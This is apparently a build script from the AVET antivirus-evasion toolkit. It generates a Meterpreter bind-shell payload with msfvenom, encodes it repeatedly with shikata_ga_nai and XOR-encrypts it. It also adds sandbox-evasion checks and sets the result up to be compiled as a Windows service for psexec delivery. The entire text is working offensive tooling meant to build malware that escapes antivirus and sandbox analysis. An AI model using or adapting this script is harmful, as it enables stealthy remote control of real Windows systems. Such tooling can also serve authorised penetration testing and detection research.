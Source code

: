 ```
#!/bin/bash          
# Designed for use with msf psexec module!

# print AVET logo
cat banner.txt

# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh

# import global default lhost and lport values from build/global_connect_config.sh
. build/global_connect_config.sh

# override connect-back settings here, if necessary
LPORT=$GLOBAL_LPORT

# make meterpreter bind payload, encoded 20 rounds with shikata_ga_nai
msfvenom -p windows/meterpreter/bind_tcp lport=$LPORT -e x86/shikata_ga_nai -i 20 -f raw -a x86 --platform Windows > input/sc_raw.txt

# import feature construction interface
. build/feature_construction.sh

# add evasion techniques
add_evasion fopen_sandbox_evasion 'c:\\windows\\system.ini'
add_evasion gethostbyname_sandbox_evasion 'this.that'

# generate key file
generate_key preset aabbcc12de input/key_raw.txt

# encode shellcode
encode_payload xor input/sc_raw.txt input/scenc_raw.txt input/key_raw.txt

# array name buf is expected by static_from_file retrieval method
./tools/data_raw_to_c/data_raw_to_c input/scenc_raw.txt input/scenc_c.txt buf

# no command preexec
set_command_source no_data
set_command_exec no_command

# set shellcode source
set_payload_source static_from_file input/scenc_c.txt

# convert generated key from raw to C into array "key"
./tools/data_raw_to_c/data_raw_to_c input/key_raw.txt input/key_c.txt key

# set key source
set_key_source static_from_file input/key_c.txt

# set payload info source
set_payload_info_source no_data

# set decoder
set_decoder xor

# set shellcode binding technique
set_payload_execution_method exec_shellcode

# enable debug printing
enable_debug_print to_file C:/avetdbg.txt

# compile as service
```